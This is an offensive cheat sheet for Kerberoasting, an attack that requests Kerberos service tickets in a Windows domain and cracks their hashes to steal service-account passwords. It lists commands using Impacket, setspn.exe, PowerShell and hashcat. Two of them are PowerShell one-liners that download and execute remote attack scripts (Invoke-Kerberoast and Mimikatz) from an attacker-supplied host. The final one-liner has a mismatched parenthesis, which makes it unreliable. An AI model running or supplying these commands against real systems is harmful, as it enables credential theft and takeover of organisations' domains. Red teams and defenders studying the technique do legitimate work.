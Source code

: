 # Kerberoast

## Performing the Attack
To begin make sure Port 88 is available (port forward if needed). Also make sure your time + timezone and the targets time are in sync, kerberos is very time sensitive. You can view the time on windows with `tzdate /g`.

### Get User SPNs:
First get SPNs with one of the following techniques:

Remote via Impacket:
`GetUserSPNs.py -request -dc-ip <ip> <domain>/<user>`

Local via setspn.exe:
```
Add-Type -AssemblyName System.IdentityModel  
setspn.exe -T <domain> -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System. IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }  
```

Local via Powershell:
```
Add-Type -AssemblyName System.IdentityModel  
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "HTTP/<user>.<domain>"  
```

Local via PowerSploit:
```
powershell.exe -Command 'IEX (New-Object Net.Webclient).DownloadString("http://<ip>:<port>/Invoke-Kerberoast.ps1");Invoke-Kerberoast -OutputFormat Hashcat
```

The result of this step will be the hash of a kerberos ticket. It can directly be cracked with `hashcat64.exe -m 13100 roasted.hash <wordlist>`.

Whole Attack as oneliner:
powershell.exe -exec bypass IEX (New-Object) Net.WebClient).DownloadString('<url to MimiKatz.ps1>'); Invoke-Mimikatz -Command "kerberos::list /export"

tags: #windows #kerberos #powershell #kerberoasting 
